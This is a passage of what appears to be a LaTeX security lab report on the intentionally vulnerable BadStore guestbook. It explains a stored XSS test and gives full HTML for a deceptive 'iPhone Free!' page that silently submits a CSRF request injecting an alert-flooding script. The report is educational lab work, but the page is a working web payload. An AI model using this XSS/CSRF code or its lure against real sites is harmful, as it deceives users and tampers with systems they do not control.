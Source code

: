 \begin{enumerate}
  Explanation: In the example, we write a piece of Javascript code enclosed in script tags in the comment area and submit it to the guest book. It works because the website has an XSS vulnerability which enables us to insert Javascript into the website and have it executed by other users. When the page reloads, the server will just paste the tag-embraced Javascript code into the HTML code in such a way that it is interpreted as a Javascript snippet rather than the text \verb|<script>alert("1")</script>|.
\item To perform a CSRF attack, we need to create a custom web page containing deceptive information. The objective of the attack is to have an unsuspecting user make an XSS comment in the guestbook for generating countless alert messages. The key point necessary to execute the attack is to guide the victim to our page and have him or her click on the button. As we demonstrate it just as an example, we can suppose that the victim will click on it. The custom page is so simple that it is just written as a demo. Below are the steps for carrying out the attack:
  \begin{itemize}
  \item As the attacker, write a simple page containing this code:
    \par
    \begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
      <!DOCTYPE html>
      <html>
      <head>
      <title>iPhone Free!</title>
      </head>
      <body>
      <FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
      <INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert('HHHH');}</script>" SIZE=30>
      <INPUT TYPE=hidden NAME=email value="1" SIZE=40>
      <TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
      <INPUT TYPE=submit VALUE="Get Now!">
      <INPUT style="display:none" TYPE=reset></Center>
      </FORM>
      </body>
      </html>
    \end{lstlisting}
  \item The page shows like this:
    \begin{figure}[h!]
      \caption{Fake Page}
      \begin{center}\includegraphics[height=2.5in]{csrf1}

\end{center}
\end{figure}
\end{itemize}
\end{enumerate}
